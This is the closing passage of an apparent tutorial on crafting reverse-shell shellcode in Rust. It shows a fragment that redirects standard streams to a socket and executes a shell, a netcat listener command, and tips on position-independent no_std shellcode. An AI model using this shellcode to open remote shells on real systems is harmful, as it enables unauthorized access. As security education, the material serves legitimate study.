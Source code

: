 ```rust
        );

        syscall2(SYS_DUP2, socket_fd, STDIN);
        syscall2(SYS_DUP2, socket_fd, STDOUT);
        syscall2(SYS_DUP2, socket_fd, STDERR);

        syscall3(SYS_EXECVE, shell.as_ptr() as usize, argv.as_ptr() as usize, 0);
    };

    loop {}
}
```

Way more digest, isn't it?


Let's try it:

In shell 1:
```bash
$ nc -vlnp 8042
Listening on 0.0.0.0 8042
```

In shell 2:
```bash
$ make run_tcp
```

And Bingo! We have our remote shell.


## Summary

* Only the [Rust Core](https://doc.rust-lang.org/core/) library can be used in an `#![no_std]` program / library
* A Shellcode in Rust is easy to port across different architecture, while in assembly, it's close to impossible
* The more complex a shellcode is, the more important it is to use a high-level language to craft it
* Shellcodes need to be position-independent
* When crafting a shellcode in Rust, use the stack instead of `const` arrays
* Use the never type and an infinite loop to save a few bytes when working with stack variables
